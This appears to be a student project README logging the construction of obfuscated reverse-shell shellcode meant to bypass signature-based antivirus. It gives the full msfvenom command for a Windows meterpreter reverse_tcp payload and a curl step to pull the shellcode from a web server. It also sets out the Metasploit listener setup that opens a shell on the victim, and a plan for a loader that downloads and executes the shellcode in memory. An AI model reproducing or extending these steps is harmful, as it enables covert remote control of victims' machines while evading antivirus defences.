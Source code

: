# reverse-shell
Obfuscated reverse-shell shellcode aimed to bypass signature-based antivirus

# 10/16/2024
  uploaded payload-revshell-8448

    this is a WORKING windows executable which connects to the attacker listening!
    the only down side is that it is easily detectable by antivirus (that is a good thing ethically- obviously)
    but we want to expose a day0 trojan.... so we still need to obfuscate the shellcode (see shellcode-tcp-8448-c.txt)

    this executable works so then we should be able to execute this shellcode.
  
  Steps needed in the main c program:
  
      - Download shellcode payload (HTTP GET REQUEST)
      
      - parse shellcode properly:
          - there should be no Null bytes (0x00), Line feeds (0x0A), carriage returns (0x0D), or Form feeds (0x0C)
          - only the shellcode instructions stored into char* memBuffer. 
          - then, loop through memBuffer[] and save contents as hexidecimal machine code to the dynamically 
              allocated unsigned char shellcode[]
              
      - execute machine code within shellcode[]

  Uploaded main.cpp

    Right now, the main.cpp downloads the shellcode, converts it to dynamic allocated memory that is reconizable to the system as hexidecimal instructions , and prints the the converted shellcode.
    
  Here is the shellcode before conversion:
  
  ![Before](payload-before-conversion.png)

  Here is the shellcode after conversion:
  
  ![After](payload-after-conversion-raw.png)


    We still need to figure out how to execute this shellcode so that it connects the user to the attacker.


  # 10/15/2024
  To-do: create a c program to download the shellcode and execute it. 
  
      Russell:
          Check out this code generated by chatGPT:     https://chatgpt.com/share/670ecd31-e6f4-8007-975a-aa463a4bbc49
           It lays the foundation for what we are attempting to do. It has not been tested thoroughly but is a good reference
           to the steps required for the program executable.



# 10/14/2024:
    
    Russell:
      - created GitHub repo and uploaded the research paper as well as our proposal.
      - created and uploaded payload-22.c

  To create a payload (using kali):
            
      $msfvenom -p windows/meterpreter/reverse_tcp lhost={IP of attacker} lport={port #} --format c -o payload-22.c -b "\x00\x0A\x0\x0C\x0D"
      
  To download the shellcode as a victim via web server:
    
      $curl {your http web server}/download.php > payload-22.txt
      
  Attacker must have Metasploit installed in order to listen for the victim's connection on a port.  
      To download the metasploit installer:
      
      $curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
      $chmod 755 msfinstall
      $./msfinstall
      $sudo msfconsole
      

  To run a listener on attackers machine:
      
      $msfconsole
      $use exploit/multi/handler
      $set PAYLOAD windows/x64/meterpreter/reverse_tcp
      $set LHOST your_ip
      $set LPORT 4444
      $exploit
      

  Once the victim has executed the reverse shell, the attacker will see "Meterpreter session 1 opened." Lastly, the
      attacker enters the following command to enter the shell of the victim:
      
      $shell



  For a broad video explanation watch the following youtube video:
      https://www.youtube.com/watch?v=17JontiMrWQ


      

  

    
